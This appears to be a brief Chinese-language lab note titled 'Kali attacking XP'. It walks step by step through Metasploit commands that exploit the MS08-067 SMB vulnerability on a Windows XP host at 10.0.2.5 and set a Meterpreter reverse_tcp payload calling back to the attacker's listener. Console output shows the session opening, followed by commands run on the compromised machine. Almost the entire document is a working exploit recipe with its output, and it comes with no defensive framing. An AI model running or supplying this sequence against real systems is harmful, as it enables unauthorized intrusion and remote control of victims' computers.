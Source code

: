 ## Kali攻擊XP

<service postgresql start>先導入攻擊資料庫

<msfconsole>開啟攻擊面板
  
<use windows/smb/ms08_067_netapi>使用的漏洞

<show options>檢查設定
  
               Name     Current Setting  Required  Description
               ----     ---------------  --------  -----------
               RHOSTS                    yes       The target address range or CIDR identifier
               RPORT    445              yes       The SMB service port (TCP)
               SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

<set RHOSTS 10.0.2.5>設定欲攻擊的IP

<check>檢查是否有導入
 
<set payload windows/meterpreter/reverse_tcp>

<show options>再次檢查
  
               Module options (exploit/windows/smb/ms08_067_netapi):

                 Name     Current Setting  Required  Description
                 ----     ---------------  --------  -----------
                 RHOSTS   10.0.2.5         yes       The target address range or CIDR identifier
                 RPORT    445              yes       The SMB service port (TCP)
                 SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


              Payload options (windows/meterpreter/reverse_tcp):

                 Name      Current Setting  Required  Description
                 ----      ---------------  --------  -----------
                 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
                 LHOST                      yes       The listen address (an interface may be specified)
                 LPORT     4444             yes       The listen port


              Exploit target:

                 Id  Name
                 --  ----
                 0   Automatic Targeting

<set LHOST attact ip>設定攻擊者ip
  
<exploit>攻擊開始

                [*] Started reverse TCP handler on 10.0.2.4:4444 
                [*] 10.0.2.5:445 - Automatically detecting the target...
                [*] 10.0.2.5:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Chinese - Traditional / Taiwan
                [*] 10.0.2.5:445 - Selected Target: Windows XP SP3 Chinese - Traditional / Taiwan (NX)
                [*] 10.0.2.5:445 - Attempting to trigger the vulnerability...
                [*] Sending stage (179779 bytes) to 10.0.2.5
                [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.5:1045) at 2020-10-19 11:01:38 -0400
                
## 此時以攻擊成功可控制XP                
                
<pwd>Linux指令檢查正在的目錄
                
                meterpreter > pwd
                C:\WINDOWS\system32
                
<cd /> 前往根目錄

<mkdir 檔名>創建資料夾
